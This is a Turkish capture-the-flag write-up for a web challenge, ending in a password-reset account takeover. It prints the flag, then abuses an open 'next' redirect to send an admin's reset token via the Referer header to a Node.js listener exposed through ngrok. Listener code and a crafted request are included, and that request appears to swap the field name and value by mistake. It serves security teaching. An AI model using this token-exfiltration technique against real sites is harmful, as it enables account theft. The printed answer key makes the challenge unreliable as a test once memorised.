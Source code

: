 # İsviçre Çakısı

|    |  |
| ------------- |:-------------:|
| Zorluk        | Orta(320 Puan)|
| Aşama         | Final         |
| Soru Türü     | Web Güvenliği |
| Yazar         | [Rednexie](https://github.com/Rednexie) |


## Soru Açıklaması
```
Sizi, bu İsviçre çakısı misali platforma yönlendiriyoruz.
```

### Sorunun alakalı olduğu alanlar
- Web Güvenliği

## İpuçları
```
Bu ipucu, sizden aldığı bir şeyle sizi çözüme yönlendirecek.
```

## Bayrak
```
BayrakBende{b4ll3r1n4_c4ppuc1n0}
```


# WriteUp

## Sorunun Anlaşılması ve Giriş

Soru ile ilgili bilgilerimiz:

- Bu web güvenliği sorusunda, bize urbatek kurumunun personeli tarafından kullanılan çok amaçlı bir platforma erişim verilmektedir.
- Duyuru olarak da gönderildiği üzere, kurumun yöneticileri kendilerine mail yoluyla gelecek herhangi bir bağlantıya düşünmeden tıklayacak kadar bilinçsizlerdir. 

## Web Sitesinin Araştırılması

Soru sitesine girdiğimizde, bizi birbirinden farklı iki platforma yönlendirmeyi sağlayan 2 platform karşılamaktadır.

- UrbaTasks: Urbatek firmasındaki personelin yapacağı görevlerin anlık olarak takibini yaptıkları platformdur.
- UrbaMail: Urbatek firmasındaki personelin şirket e-posta adreslerini kullanmalarına yarayan web arayüzüdür.

Urba Mail platformunu ziyaret ettiğimzde, urbatek.tr alan adı altında olan bir e-posta adresinin bize tahsis edilmiş olduğunu görürüz. Verilen e-post adresini kopyalayıp UrbaTasks platformun kaydolmamız gerekmektedir. Kaydımızı gerçekleştirdiğimizde beklediğimiz gibi görevleri yönetmemize yarayan bir platform karşımıza çıkmaktadır. Kayıt işleminin hemen sonrasında e-posta kutumuza baktığımızda ise bize kaydımızı tamamladığımıza dair bir e-posta gelmektedir.


Platformun diğer bir özelliği olan şifre sıfırlama özelliğini kullanabiliriz. Bunu yapıtğımızda e-posta adresimize bir şifre sıfırlama bağlantısı gönderilmektedir.

## Trafiğin İncelenmesi ve Zafiyet Tespiti Yapılması

Platformda gezinirken trafiği incelediğimzde, dikkatimizi çeken kısım şifre sıfırlama bölümü olmalıdır. Şifre sıfırlama kısmında kullanıcı adımızı girerek 'Şifre Sıfırlama Talebi Gönder' bölümüne bastığımızda, aşağıdaki post isteğinin sunucuya gittiğini görmekteyiz:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://soru.bayraksende.com:2999/login
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```


Yukarıdaki istekte kullanıcı adımızı içeren 'username', ve yönlendirileceğimiz bağlantıyı içeren 'next' olmak üzere 2 tane parametre bulunmaktadır. 



Ve gelen bağlantıdan şifre sıfırlama talebini başarıyla oluşturduğumuzda, 3 saniye sonra tam da istek gövdesindeki 'next' alanındaki bağlantıya yönlendirildiğimizi fark etmemiz gerekmektedir.



Yani kendimize gönderdiğimiz şifre sıfırlama isteğindeki 'next' alanını değiştirerek kendi e-postamıza gelen sıfırlama bağlantısını modifiye edebiliriz.




Soru metni ve duyurulardaki bilgileri hatırlarsak, platform yöneticilerinin kendi e-posta kutularına gelen herhangi bir bağlantıya tıklayacak kadar bilinçsiz oldukları belirtilmişti.
Peki, bu düzenlenen payload'da kullanıcı adını yöneticilerin kullanıcı adıyla değiştirir ve url kısmını kendi sunucumuza yönlendirecek şekilde değiştirirsek ne olur?


Şifre sıfırlama bağlantılarının formatını inceleyelim:

```
http://soru.bayraksende.com:2999/reset-password?token=fc8eba6f-dfb3-4776-9a4c-503417303a78&next=http://soru.bayraksende.com:2999/login
```


Bağlantı, post istek gövdemizde verdiğimiz 'next' alanını ve sunucu tarafında oluşturulması muhtemel olan bir şifre sıfırlama tokenını içeriyor.
Bu da şu anlama geliyor: Yöneticiyi kendi web sitemize yönlendirip, onun isteğinden gelen 'referer' başlığını alırsak buradan önce bulunduğu tam url'yi görürüz, ki bu da şifre sıfırlama tokenını içerdiği için admin kullanıcısı için şifre sıfırlama talebi açabilmemiz anlamına gelmektedir.


# Listener Sunucu Kurulumu ve Zafiyetin Sömürülmesi 

Öncelikle, admin kullanıcısının 'referer' başlığını almamız ve depolamamız için bir sunucuya ihtiyacımız olacak. Bunun için istersek dışarıya açık bir sunucumuz ya da hosting'imiz varsa onu, yoksa da kendi cihazımızı ngrok veya serveo gibi reverse proxyler aracılığıyla dışarı çıkararak kendi cihazımızı kullanabiliriz. Pipedream veya webhook gibi sistemlerle de yapmak mümkün, ben çözümde herkes için uygun olması sebebiyle kendi cihaızımı ngrok ile dışarı çıkararak kullanacağım.


Bunun için en kolay yol, kullanmayı en sevdiğimiz yazılım kütüphanesi ve diliyle bir web sunucusu yazmak, ve gelen isteklerdeki referer http başlığının değerini konsola yazdırmak. Ben rahat olduğum ve severek yazdığım için Node.js kullanacağım, siz ne isterseniz onu kullanabilirsiniz.

```js
const http = require('http');

const server = http.createServer((req, res) => {
    const now = new Date();
    const ip = req.socket.remoteAddress;
    const referer = req.headers.referer || 'none';
    console.log(`${now.toISOString()}\nIP: ${ip}\nReferer: ${referer}`);
    res.end();
});

server.listen(3000);
```

Kodu çalıştırdığımda, sunucum cihazın 3000 portunda hazır bekliyor olacak. Bu portu ngrok reverse proxy kullanarak dışarı çıkaracağım, ki tüm kullanıcılar dolayısıyla da adminimiz erişebilsin.

```sh
ngrok http 3000
```

Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örneğin:


`https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`

Şimdi, bu url'yi isteğimizin içine koyalım, ve kullanıcı adı kısmını admin ile değiştirelim:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="admin"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```

İsteğimizi gönderip sunucu konsolumuza baktığımzda, aşağıdakine benzer bir çıktı gelecektir:


```stdout
2025-05-30T12:34:56.789Z
IP: ::ffff:127.0.0.1
Referer: http://soru.bayraksende.com:2999/reset-password?token=fa18d596-6557-47c0-b148-bed4cb96de30&mext=...
```


Bu url'nin uuid token'a olan kısmını alarak ziyaret ettiğimizde, admin kullanıcısı için şifre sıfırlama erişimi elde etmekteyiz. Şifremizi sıfırlayıp yeni şifremiz ile giriş yapabiliriz.




